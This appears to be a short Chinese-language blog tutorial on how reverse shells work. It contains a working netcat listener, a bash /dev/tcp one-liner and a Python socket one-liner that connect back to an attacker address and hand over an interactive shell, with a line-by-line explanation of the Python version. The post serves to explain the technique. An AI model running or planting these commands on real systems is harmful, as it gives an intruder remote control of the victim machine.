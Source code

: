 ```yaml
---
layout: single
author_profile: true
comments: true
title: reverse shell原理
tagline: Python实例分析
category : Linux
tags : [Linux, Python]
---
```


# RevSh简介
当你需要远程控制一台服务器时，这个服务器有防火墙保护着，阻止外来的TCP连接，这时就需要Reverse Shell技术，reverse shell技术如其名，也叫逆向shell，反弹shell，也在就是说在服务器端发起TCP连接，当连接建立成功后，你就获得服务器的一个shell，可以操纵远程服务器。  
从上述过程可以看出，如何能让远程服务器执行一些代码，我们就可以控制它，进入正题，如果服务器存在缓冲区溢出、代码注入等漏洞，攻击者可以很容易的黑掉服务器。  

# RevSh实例
Attacker: 192.168.0.1  
Victim: 192.168.0.2  

### Attacker
使用nc在端口1234建立一个服务器端，监听TCP连接请求;  

```
nc -l -p 1234
```

### Victim
在终端执行如下命令  

```
bash -i >& /dev/tcp/192.168.0.1/1234 0>&1  
```

### 结果
Attacker成功获得一个Victim的shell.  

# RevSh原理
bash不是很熟悉，看一个Python版本的reverse shell:  

{% highlight bash %}
Python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'     
{% endhighlight %}

Python代码展开如下：

{% highlight python %}
    import socket,subprocess,os  
    s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)  
    s.connect(("192.168.0.1",1234))  
    os.dup2(s.fileno(),0)  
    os.dup2(s.fileno(),1)  
    os.dup2(s.fileno(),2)  
    p=subprocess.call(["/bin/sh","-i"])  
{% endhighlight %}

os.dup2三条语句通过覆盖原来的stdin, stdout, stderr，将套接字s和stdin, stdout,  stderr关联起来，这样可以从套接字读取输入，并将输出和错误写入套接字;
subprocess创建一个子进程来执行 /bin/sh -i, -i 选项的作用是“使脚本以交互的方式执行”， bash版本的 -i选项不是必须的，而python版本创建了一个子进程，必须使用-i选项.  


### 参考

reverse shell cheat
